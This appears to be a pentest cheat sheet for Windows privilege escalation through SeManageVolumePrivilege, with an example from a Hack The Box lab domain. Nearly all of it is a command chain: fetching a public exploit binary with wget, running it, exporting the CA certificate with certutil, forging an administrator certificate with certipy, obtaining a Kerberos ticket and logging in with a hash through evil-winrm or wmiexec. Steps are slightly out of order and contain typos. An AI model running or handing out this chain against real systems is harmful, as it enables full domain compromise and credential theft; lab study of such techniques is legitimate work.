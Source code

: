 # SeManageVolumePrivilege
SeManageVolumePrivilege (Display name: "Perform volume maintenance tasks") is a Windows privilege that allows a user to perform administrative-level operations on storage volumes without needing full Administrator access.

Think of it as being the "storage system administrator" - you can't change user permissions or install software, but you have master keys to work with the hard drives and file systems at a very low level.

# steps
1. Download the Exploit Binary and upload it
2. Create a temp directoty.
3. Export the Certificate and Download it
4. After perform a forge ticker
5. Get the TGT and login it

# Download it
```language
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe
upload SeManageVolumeExploit.exe
```
# Make a directory and Execute the exe
```language
.\SeManageVolumeExploit.exe

mkdir C:\tmp
```
# Export certificate and Download 
```language
certutil -exportPFX my "Certificate-LTD-CA" C:\tmp\get.pfx

download get.pfx
```
# Forge ticket 
```language
certipy forge -ca-pfx input.pfx -upn administrator@$domain -subject "<admin OU>" -out out.pfx

for Example:-
certipy forge -ca-pfx get.pfx -upn administrator@$certificate.htb -subject "CN=Administrator,CN=Users,DC=certificate,DC=htb" -out out.pfx
```
# Get the TGT
```language
certipy auth -pfx out.pfx -dc-ip $ip  
```
# login it
```language
evil-winrm -i $ip -u "administrator" -H $hash

rlwarp impacket-wmiexec domain/user@<ip> -hashes :<hash>
```
